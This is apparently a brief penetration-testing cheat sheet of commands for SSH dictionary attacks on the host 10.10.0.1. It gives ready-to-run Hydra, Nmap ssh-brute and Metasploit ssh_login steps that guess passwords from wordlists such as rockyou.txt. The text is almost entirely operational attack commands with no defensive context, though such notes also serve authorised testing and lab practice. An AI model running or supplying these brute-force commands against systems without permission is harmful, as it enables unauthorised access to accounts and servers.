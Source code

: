 SSH Dictionary Attacks using Hydra
	- `hydra -l user -P /usr/share/wordlists/rockyou.txt 10.10.0.1 ssh`

SSH Dictionary Attacks using Nmap
	- `echo "administrator" > users`
	- `nmap 10.10.0.1 -p 22 --script ssh-brute --script-args userdb=/root/users`
	- The wordlist used by Nmap here is inbuilt.

SSH Dictionary Attacks using Metasploit Framework
	- `msfconsole`
	- `search ssh_login`
	- `use auxiliary/scanner/ssh/ssh_login`
	- `show options`
	- `set RHOSTS 10.10.0.1`
	- `set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt`
	- `set STOP_ON_SUCCESS true`
	- `set verbose true`
	- `show options`
	- `run`
	- `exit`